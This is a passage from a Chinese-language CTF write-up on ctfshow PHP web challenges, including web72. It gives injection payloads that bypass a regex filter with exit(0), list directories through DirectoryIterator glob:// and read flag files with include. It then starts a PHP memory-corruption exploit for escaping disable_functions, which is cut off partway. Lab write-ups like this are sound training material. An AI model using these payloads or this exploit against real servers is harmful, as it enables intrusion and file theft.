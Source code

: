 ```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);
```

我们可以在命令后面加上exit(0);用来跳过正则替换

![image-20240429083758766](image/image-20240429083758766.png)

```
c=include("/flag.txt");exit(0);
```

![image-20240429083832297](image/image-20240429083832297.png)

---

#### web72

下载附件，发现两个文件相同，

我们套用上一题的方法

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);
```

![image-20240429084749898](image/image-20240429084749898.png)

```
c=include("/flag0.txt");exit(0);
```

![image-20240429084840044](image/image-20240429084840044.png)

发现include无法使用

用一下群主发的exp

```php
c=function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
```